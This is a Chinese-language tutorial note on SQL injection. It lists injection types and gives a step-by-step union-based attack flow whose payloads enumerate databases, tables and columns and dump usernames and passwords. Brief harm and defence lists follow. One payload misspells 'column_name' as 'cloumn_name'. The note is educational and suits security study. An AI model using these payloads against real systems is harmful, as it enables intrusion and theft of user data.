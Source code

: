 ### SQL注入的种类

  1. 数值型注入:前台页面输入的参数是数字,字段类型是数值

  2. 字符型注入:前台页面输入的参数是字符串,字段类型是字符

    1. 单引号字符注入:`select * from user where username='zhangsan'`

    2. 双引号字符注入:`select * from user where username="zhangsan"`

    3. 括号字符注入:`select * from user where id =(1)`

  3. 盲注:在无法构造回显位置时使用

  4. 其他类型注入:例如get注入,post注入,cookie注入,http header注入等

    1. get注入:以get的方式进行提交，注入点一般在get提交的url后面，可以用bp抓包进行查找

    2. post注入:以post的方式进行提交，注入点一般在表单的填写处，资料的填写处，也可以用bp抓包的进行查找。

    3. http头部注入:user-agent判定用户的操作系统;cookie:用户的身份识别,跟踪可以存储在用户本地的数据,clientip:保存客户端ip的参数

### SQL注入的攻击流程

  1. 判断注入类型(数字型or字符型)

  2. 猜解SQL查询语句中的字段数:`1' or 1=1 order by 10 --+`

  3. 确定字段的显示顺序:`1' union select 1,2 --+`

  4. 获取当前数据库:`1' union select 1,database() --+`

  5. 获取数据库中的表:`1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() --+`

  6. 获取表中的字段名:`1' union select 1,group_concat(cloumn_name) from information_schema.columns where table_name='users' --+`

  7. 下载数据:`1' union select 1,group_concat(id,username,password) from users --+`

### SQL注入的危害及防御

#### 危害

  1. 盗取用户数据和隐私，这些数据被打包贩卖，或用于非法目的后，轻则损害企业品牌形象，重则将面临法律法规风险。

  2. 攻击者可对目标数据库进行“增删改查”，一旦攻击者删库，企业整个业务将陷于瘫痪，极难恢复。

  3. 攻击者添加管理员帐号。即便漏洞被修复，如果企业未及时察觉账号被添加，则攻击者可通过管理员帐号，进入网站后  
台。

  4. 植入网页木马程序，对网页进行篡改，发布一些违法犯罪信息

#### 防护

  1. 提高开发人员的安全意识

  2. 通过各种技术手段防御

  3. 使用云服务提供商的安全产品
